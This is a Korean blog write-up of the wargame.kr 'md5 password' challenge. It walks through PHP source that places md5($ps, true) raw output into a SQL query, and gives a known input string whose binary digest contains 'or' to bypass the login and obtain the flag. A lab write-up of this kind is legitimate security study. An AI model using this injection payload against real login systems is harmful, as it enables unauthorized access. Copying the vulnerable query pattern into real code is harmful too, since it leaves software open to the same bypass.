 ```yaml
---
title: "[Wargame.kr] md5 password 문제풀이"
date: 2018-10-26
draft: false
category: [wargame]
subcategories: [wargame.kr]
tags: [Write-up, Wargame.kr]
---
```


일하기가 싫으니까 1일 1문제가 너무 잘된다 ㅎㅎㅎ  

계속 문제 이렇게 꾸준히 풀면 언젠간 CTF에서도 좋은 성적을 얻을 수 있겠지...?? ㅎㅎ  

이번 문제는 `MD5 SQL Injection`이다.  

<!--more-->

문제 정보는 다음과 같다.  

```plain
md5('value', true);
```

문제 페이지에 접속하면 `password`를 입력하는 칸이 하나 있고, 페이지의 소스코드를 확인할 수 있다.  

```php
<?php
 if (isset($_GET['view-source'])) {
  show_source(__FILE__);
  exit();
 }

 if(isset($_POST['ps'])){
  sleep(1);
  mysql_connect("localhost","md5_password","md5_password_pz");
  mysql_select_db("md5_password");
  mysql_query("set names utf8");
  /*
  
  create table admin_password(
   password char(64) unique
  );
  
  */

  include "../lib.php"; // include for auth_code function.
  $key=auth_code("md5 password");
  $ps = mysql_real_escape_string($_POST['ps']);
  $row=@mysql_fetch_array(mysql_query("select * from admin_password where password='".md5($ps,true)."'"));
  if(isset($row[0])){
   echo "hello admin!"."<br />";
   echo "Password : ".$key;
  }else{
   echo "wrong..";
  }
 }
?>
<style>
 input[type=text] {width:200px;}
</style>
<br />
<br />
<form method="post" action="./index.php">
password : <input type="text" name="ps" /><input type="submit" value="login" />
</form>
<div><a href='?view-source'>get source</a></div>
```

소스코드를 살펴보면, 내가 입력 한 password의 값이 md5 함수를 통과 해 쿼리문의 password 자리에 들어간다.
근데 이 때, `md5($ps, true)`를 사용한다.
php에서 `md5()` 함수를 사용할 때, 두 번째 인자는 `true` 혹은 `false`의 값을 받는다.
만약에 true라면, 결과가 binary 형태로 나오고, false라면 hex 값의 형태로 나온다.
물론 defalut 값은 false이다.  

두 번째 인자가 ture일 경우 만약에 내가 입력 한 password가 md5 함수를 통과하여 binary 형태로 나왔을 때, ASCII 범위 안에 있는 문자라면 그대로 출력된다.  
때문에 만약 md5 함수를 통과 한 결과가 `' or '` 형태를 띈다면 완성되는 쿼리는 다음과 같기 때문에 SQL Injection이 가능해 진다.  

```plain
select * from admin_password where password='' or ''
```

이런 형태가 나오는 값을 직접 구해봐도 되지만, 아마도 인터넷에 잘 알려져 있을 것 같았다.
그래서 구글신에게 `md5 sql injection`이라고 검색을 해 봤더니 아래와 같은 값을 입력하면 `' or '` 형태의 결과값을 얻을 수 있다고 한다.  

```plain
129581926211651571912466741651878684928
```

이를 직접 `python`으로 테스트 해 보았다.  

```bash
$ python
Python 2.7.12 (default, Dec  4 2017, 14:50:18) 
[GCC 5.4.0 20160609] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> import hashlib
>>> print hashlib.md5("129581926211651571912466741651878684928").digest()
ٔ0Do#ࠁ'or'8
```

그 결과 완성되는 쿼리는 다음과 같다.  

```plain
select * from admin_password where password='ٔ0Do#ࠁ'or'8'
```

때문에 `password='ٔ0Do#ࠁ'` 부분은 `false`가 되고 `'8'` 부분이 `true`가 되어 값을 추출할 수 있다.
다시 문제 페이지로 돌아가 `129581926211651571912466741651878684928` 입력했더니 아래와 같이 flag를 얻을 수 있었다.  

![](/images/wargame.kr/md5_password/md5_01.png)

```plain
FLAG : 3f73ad2d57d66488b92c10f0bce1cfcb35e99882 
```
